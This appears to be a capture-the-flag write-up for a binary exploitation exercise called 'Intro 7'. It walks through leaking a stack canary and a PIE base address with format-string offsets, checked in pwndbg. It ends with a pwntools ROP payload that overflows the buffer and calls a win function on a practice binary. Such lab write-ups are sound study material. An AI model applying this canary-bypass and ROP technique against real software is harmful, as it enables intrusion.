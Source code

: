 # Intro 7

Intro 7

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

Okay new output from checksec "Stack: Canary found"

At the bottom of the vuln function we can see something new:

![](pics/1.png)

This will check if the stack canary is the correct value which would prevent us from doing a buffer overflow.

We can see this in action by sending 25 'A's to the gets() function

![](pics/2.png)

If we look inside GDB we can see the CMP fails and prints the "stack smashing detected error"

okay, so we need to leak the canary and include it after our first 24 'A's.

https://ir0nstone.gitbook.io/notes/types/stack/canaries 

Using this as reference the stack canary always ends in "00" 

So I'll use the same fuzz script as before and offset 13 seems to always end in 00

```Offset 13 has b'0xdd84f1f88b108100'```

You can confirm this is the correct address using GDB:

```
pwndbg> canary
AT_RANDOM = 0x7ffe34390cd9 # points to (not masked) global canary value
Canary    = 0x41a14b2fc491d200 (may be incorrect on != glibc)
```

The canary command gives us "0x41a14b2fc491d200" checking this with the 13th leak. We see they are a match

To confirm this is the stack canary I sent 24 'A's that leak and another 24 'A's 

payload = 'A' * 24 + p64(leak) + 'A' * 24

Using this as the payload we dont get the stack smashing error. This is this the correct value.


Now, looking at the leaks from the fuzz.py script i'll look for stack address like from Intro 6.

"%10$p" is giving the same "\_start" from intro6.

```
pwndbg> x/s 0x555555555100
0x555555555100 <_start>:
```

This time the offset is 0x1100

```
❯ objdump -D pwnme|grep start
    1008:	48 8b 05 d9 2f 00 00 	mov    0x2fd9(%rip),%rax        # 3fe8 <__gmon_start__>
0000000000001100 <_start>:
    1128:	ff 15 b2 2e 00 00    	call   *0x2eb2(%rip)        # 3fe0 <__libc_start_main@GLIBC_2.2.5>
0000000000004000 <__data_start>:
```

So %10$p (the leak) - 0x1100 will give the base address.

The final payload looks like this:

```
payload = b'A' * 24
payload += p64(canary)
payload += b"A" * 8
rop.raw(rop.ret)
rop.win(0xdeadbeefdeadbeef)
rop.win()
payload += rop.chain()
io.sendline(payload)
```

![](pics/3.png)

